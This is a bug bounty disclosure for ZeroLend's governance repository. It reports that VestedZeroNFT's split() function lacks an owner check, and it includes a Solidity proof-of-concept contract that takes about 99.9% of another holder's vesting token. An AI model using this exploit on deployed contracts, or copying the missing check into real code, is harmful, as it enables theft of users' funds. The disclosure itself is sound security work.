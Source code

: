 
# VestedZeroNFT tokens can be directly stolen through the split() function

Submitted on Mon Mar 04 2024 21:07:39 GMT-0400 (Atlantic Standard Time) by @Trust for [Boost | ZeroLend](https://immunefi.com/bounty/zerolend-boost/)

Report ID: #29031

Report type: Smart Contract

Target: https://github.com/zerolend/governance

Impacts:
- Direct theft of any user funds, whether at-rest or in-motion, other than unclaimed yield
- Direct theft of any user NFTs, whether at-rest or in-motion, other than unclaimed royalties

## Description
## Brief/Intro
The split() function of VestedZeroNFT allows a user to split a tokenId to two tokens, using the desired ratio. 
VestedZeroNFT is a vesting solution, allowing anyone to mint a vesting token who will eventually emit the entire locked funds.


## Vulnerability Details
The `split()` function lacks access-control check - essentially that the msg.sender is the owner of `tokenID`. The `msg.sender` is the one receiving the newly minted token with an arbitrary ratio.
`_mint(msg.sender, ++lastTokenId);`
This means anyone can pass an existing tokenID and `fraction=1` to still 99.99% of the value of a token.

## Impact Details
Anyone can steal the underlying value of vestedZeroNFTs

        
## Proof of concept
Since the project's test suite does not run, as indicated in chat, I've prepped a POC as a standalone contract which directly copies the `split()` function from VestedZeroNFT.

Simply deploy the SplitStealPOC contract and run `attack()` which proves anyone can steal another person's holdings.

```
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.20;

import {IERC165, ERC721Upgradeable, ERC721EnumerableUpgradeable} from "@openzeppelin/contracts-upgradeable/token/ERC721/extensions/ERC721EnumerableUpgradeable.sol";
import {IERC20} from "@openzeppelin/contracts/interfaces/IERC20.sol";
import {ERC20} from  "@openzeppelin/contracts/token/ERC20/ERC20.sol";

interface IVestedZeroNFT{
    function split( uint256 tokenId, uint256 fraction) external;
    function mint( address _who, uint256 _pending, uint256 _upfront, uint256 _linearDuration, uint256 _cliffDuration, uint256 _unlockDate, bool _hasPenalty, VestCategory _category) external returns (uint256);
    function init(address _zero, address _stakingBonus) external;
}

enum VestCategory {
    PRIVATE_SALE,
    EARLY_ZERO,
    NORMAL,
    AIRDROP
}

struct LockDetails {
    uint256 cliffDuration;
    uint256 unlockDate;
    uint256 pendingClaimed;
    uint256 pending;
    uint256 upfrontClaimed;
    uint256 upfront;
    uint256 linearDuration;
    uint256 createdAt;
    bool hasPenalty;
    VestCategory category;
}

contract Zero is ERC20 {
    constructor() ERC20("Zero","ZRO") {
        _mint(msg.sender, 100_000 * 1e18);
    }
}

contract VestedZeroNFT is ERC721EnumerableUpgradeable {
    function init(address _zero, address _stakingBonus) external initializer {
    __ERC721_init("ZeroLend Vest", "ZEROv");
    denominator = 10000;
    zero = IERC20(_zero);
    }

    mapping(uint256 => bool) public frozen;
    uint256 public denominator;
    mapping(uint256 => LockDetails) public tokenIdToLockDetails;
    uint256 public lastTokenId;
    IERC20 public zero;

    function split(
        uint256 tokenId,
        uint256 fraction
    ) external {
        _requireOwned(tokenId);
        require(fraction > 0 && fraction < denominator, "!fraction");
        require(!frozen[tokenId], "frozen");
        LockDetails memory lock = tokenIdToLockDetails[tokenId];
        uint256 splitPendingAmount = (lock.pending * fraction) / denominator;
        uint256 splitUpfrontAmount = (lock.upfront * fraction) / denominator;
        uint256 splitUnlockedPendingAmount = (lock.pendingClaimed * fraction) /
            denominator;
        uint256 splitUnlockedUpfrontAmount = (lock.upfrontClaimed * fraction) /
            denominator;
        tokenIdToLockDetails[tokenId] = LockDetails({
            cliffDuration: lock.cliffDuration,
            unlockDate: lock.unlockDate,
            createdAt: lock.createdAt,
            linearDuration: lock.linearDuration,
            pending: splitPendingAmount,
            pendingClaimed: splitUnlockedPendingAmount,
            upfrontClaimed: splitUnlockedUpfrontAmount,
            upfront: splitUpfrontAmount,
            hasPenalty: lock.hasPenalty,
            category: lock.category
        });
        _mint(msg.sender, ++lastTokenId);
        tokenIdToLockDetails[lastTokenId] = LockDetails({
            cliffDuration: lock.cliffDuration,
            unlockDate: lock.unlockDate,
            createdAt: block.timestamp,
            linearDuration: lock.linearDuration,
            pending: lock.pending - splitPendingAmount,
            pendingClaimed: lock.pendingClaimed - splitUnlockedPendingAmount,
            upfrontClaimed: lock.upfrontClaimed - splitUnlockedUpfrontAmount,
            upfront: lock.upfront - splitUpfrontAmount,
            hasPenalty: lock.hasPenalty,
            category: lock.category
        });
    }

    function getTokenIdToLockDetails(uint256 a) external returns (LockDetails memory)  {
        return tokenIdToLockDetails[a];
    }

    function mint(
        address _who,
        uint256 _pending,
        uint256 _upfront,
        uint256 _linearDuration,
        uint256 _cliffDuration,
        uint256 _unlockDate,
        bool _hasPenalty,
        VestCategory _category
    ) external returns (uint256) {
        _mint(_who, ++lastTokenId);
        if (_unlockDate == 0) _unlockDate = block.timestamp;
        require(_unlockDate >= block.timestamp, "invalid _unlockDate");
        if (_hasPenalty) {
            require(_upfront == 0, "no upfront when there is a penalty");
            require(_cliffDuration == 0, "no cliff when there is a penalty");
        }
        tokenIdToLockDetails[lastTokenId] = LockDetails({
            cliffDuration: _cliffDuration,
            unlockDate: _unlockDate,
            pendingClaimed: 0,
            upfrontClaimed: 0,
            pending: _pending,
            hasPenalty: _hasPenalty,
            upfront: _upfront,
            linearDuration: _linearDuration,
            createdAt: block.timestamp,
            category: _category
        });
        // fund the contract
        zero.transferFrom(msg.sender, address(this), _pending + _upfront);
        return lastTokenId;
    }

}


contract SplitStealPOC {

    IERC20 zero;
    VestedZeroNFT nft;

    constructor() {
        zero = new Zero();
        nft = new VestedZeroNFT();
        nft.init(address(zero), address(0));        
    }

    function attack() external {
        zero.approve(address(nft), type(uint256).max);
        nft.mint(address(0x1111), 1000, 1000, 100, 100, block.timestamp, false, VestCategory.EARLY_ZERO); // uint256 _pending, uint256 _upfront, uint256 _linearDuration, uint256 _cliffDuration, uint256 _unlockDate, bool _hasPenalty, VestCategory _category) 

        require(nft.ownerOf(1) == address(0x1111));

        nft.split(1, 10);

        require(nft.ownerOf(2) == address(this));
        LockDetails memory l1 = nft.getTokenIdToLockDetails(1);
        LockDetails memory l2 = nft.getTokenIdToLockDetails(2);
        require(l1.pending == 1);
        require(l2.pending == 999);
    }
}

```